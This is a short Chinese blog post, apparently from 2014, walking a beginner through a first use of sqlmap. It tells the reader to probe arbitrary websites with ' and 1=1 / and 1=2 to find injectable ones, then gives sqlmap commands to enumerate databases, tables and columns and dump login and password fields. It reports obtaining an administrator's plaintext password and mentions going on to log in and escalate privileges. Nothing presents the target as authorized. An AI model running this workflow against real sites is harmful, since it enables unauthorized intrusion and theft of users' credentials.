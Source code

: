 title: 第一次使用 sqlmap
date: 2014-09-02 17:26
tags:
- 渗透测试
- SQL 注入
- kali
categories: SQL 注入
---

本人菜鸟一枚，第一次使用sqlmap，大神误入
准备工作：使用 '  and 1=1  and 1=2 找到可能存在sql注入的网站
<!--more-->

# I、查看数据库系统信息
在终端输入
```
sqlmap -u url --dbs --current-user
```
说明：url 换成你之前找到的可能存在sql注入的网址 ，文中的url都是这样，不在赘述

![](http://img.blog.csdn.net/20140902162816652)

# II、查看数据库表
```
sqlmap -u -url --tables
```

![](http://img.blog.csdn.net/20140902163603858)

会出现一个错误，询问是否使用常用的表来 查询数据库表，选择 y
sqlmap 会加载常用的数据库表命名字典，使用其中的表名执行sql语句，判断数据库中是否存在相应的表名

![](http://img.blog.csdn.net/20140902163959578)

输入运行的线程数，这个数字任意

期间可能会出现请求超时的情况，不用管，sqlmap会自动再次请求，直接等结果
![](http://img.blog.csdn.net/20140902164217546)

查询出两张表，可能数据库中不止这两张表

# III、查看表字段
```
sqlmap -u url -T uname --columns
```
说明：uname是上面查询出来的其中一张表

![](http://img.blog.csdn.net/20140902165805211)

# IV、查看数据
```
sqlmap -u -url -T uname -C login_name,pass,username --dump
```

![](http://img.blog.csdn.net/20140902172455071)

发现密码竟然是明文，得到管理员账号和密码了。。。。。。。
后续就是找后台地址，登录，然后继续提权，就不介绍了






